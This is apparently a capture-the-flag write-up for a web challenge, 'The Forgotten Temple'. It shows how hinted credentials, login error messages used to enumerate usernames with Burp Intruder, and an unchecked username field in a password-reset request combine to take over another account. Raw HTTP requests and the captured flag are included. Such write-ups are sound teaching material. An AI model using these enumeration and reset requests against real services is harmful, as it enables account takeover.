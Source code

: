 # Intro
![](../img/The_Forgotten_Temple.png)

# Information gathering
When entering the user is presented with a login form with some text giving away some hint of credentials ```Anubis``` and  ```deathgod123```.   
![](../img/The_Forgotten_Temple_Login_Form%201.png)

Clicking the button "The Scroll of Gods" downloads a text file named ```usernames.txt``` that contains a list of usernames with one name on each line.  
Part of the list:
```
Anubis
Ra
Osiris
Seth
Horus
Isis
Nephthys
Thoth
Bastet
Sobek
Nut
Geb
Ptah
[...]
```

Checking the source code for the page a hint is displayed
```html
[...]
	<a href="/static/usernames.txt" download>
	    <button class="download-btn">The Scroll of Gods</button>
	</a>
</div>

<!-- Right section: Login + Password Reset (for Anubis) -->
<div class="form-section">
	<!-- LOGIN FORM -->
[...]
```

```
The hint:
<!-- Right section: Login + Password Reset (for Anubis) -->
```
This hints says that there is a user called ```Anubis``` which matches the credentials that was found earlier ```Anubis:deathgod123```. The hint also says that the is a password reset function. This could be the point of attack.  

The text on the site: 
```
Among the carvings, a guardian's name emerges: Anubis. Below, a faded inscription reads:
"The gatekeeper stands watch, bound to protect its secrets. Speak his oath, and he shall grant you passage."

A barely legible sequence follows: deathgod123.

Yet, he is only the guardian. Its true ruler remains hidden, locked behind ancient wards.
Who once ruled this sacred place?

But even if you uncover the name, how will you gain entry? The temple’s keepers left behind a way to reset its wards—but their arrogance may have left a flaw.
```

Breaking down the text to get further hints
```
Among the carvings, a guardian's name emerges: Anubis. Below, a faded inscription reads:
"The gatekeeper stands watch, bound to protect its secrets. Speak his oath, and he shall grant you passage."

A barely legible sequence follows: deathgod123.

Yet, he is only the guardian. Its true ruler remains hidden, locked behind ancient wards.
```
The Anubis doesn't seem to be the target to get the flag, there is another account, the "true ruler" is probably the account that should be targeted.

```
Who once ruled this sacred place?

But even if you uncover the name, how will you gain entry? The temple’s keepers left behind a way to reset its wards—but their arrogance may have left a flaw.
```
This parts hints that the name of the account of the "true ruler" is unknown and that there is a way "reset its wards".

It seems that to solve the CTF, an account name for the "true ruler" needs to be uncovered, and the password for that account must be reset.

Entering random username and password into the login form returns a helpful error, "Invalid username"
```http
POST / HTTP/1.1
Host: 207.154.240.240:41144
Content-Length: 27
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://207.154.240.240:41144
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://207.154.240.240:41144/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=test&password=test
```

```html
 <!-- Right section: Login + Password Reset (for Anubis) -->
<div class="form-section">
    <p style="color: red;">Invalid username</p>
    <!-- LOGIN FORM -->
```
This reveals that the user "test" isn't a username that exits in the application.
Repeating the request but with the username that is known to exit, ```Anubis```, reveals that only password is wrong but the app doesn't complains about the username.    
```http
POST / HTTP/1.1
Host: 207.154.240.240:41144
Content-Length: 34
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://207.154.240.240:41144
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://207.154.240.240:41144/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

username=Anubis&password=asdasdasd
```

```html
   <!-- Right section: Login + Password Reset (for Anubis) -->
  <div class="form-section">            
    <p style="color: red;">Incorrect password</p>
        <!-- LOGIN FORM -->   
```

This could be used to find the other valid usernames in the application. This is the way to find the "true ruler"

Using the credentials, a new reset password form appear. Confirming that there is a password reset function.
![](../img/The_Forgotten_Temple_Reset_Pw.png)

Using the account makes this ```POST``` request:
```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:43243
Content-Length: 39
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:43243
Referer: http://207.154.240.240:43243/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBOVNA.Qt4TfAY7Nz8RgY9J0fba_QaP4tE
Connection: keep-alive

username=Anubis&new_password=New_anubis
```
The body of the request contains the username and the new password. Could this username be changed to reset the password for an another user instead using the ```Anubis``` account? Then The the username for the "true ruler" needs to be uncovered.

# Attack

Using the list of username the Intruder in BurpSuite is a perfect way to find what usernames are valid or which are not. Enter the list of username and add the ```§``` where the name should be put in each request and press start attack. 
![](../img/The_Forgotten_Temple__Setup_Intruder.png)

After running the intruder there are two responses that differs from the others.
- Anubis - which was known to exist
- Khonsu - newly found username

![](../img/The_Forgotten_Temple_Intruder.png)

```http
POST /reset-password HTTP/1.1
Host: 207.154.240.240:48046
Content-Length: 34
Accept-Language: en-GB,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: http://207.154.240.240:48046
Referer: http://207.154.240.240:48046/
Accept-Encoding: gzip, deflate, br
Cookie: session=eyJ1c2VyIjoiQW51YmlzIn0.aBZI2A.NT22SvflnJDmCyptaGhor_JIF3Y
Connection: keep-alive

username=Khonsu&new_password=pwned
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.9.21
Date: Sat, 03 May 2025 16:49:25 GMT
Content-Type: application/json
Content-Length: 58
Connection: close

{"message":"Password successfully reset!","success":true}
```

Using the newly changed password it's now possible to login in as the user ```Khonsu``` and the flag is displayed.

![](../img/The_Forgotten_Temple_Solved.png)

```Flag: O24{73mp13_53cr37s_Unv31l3d}```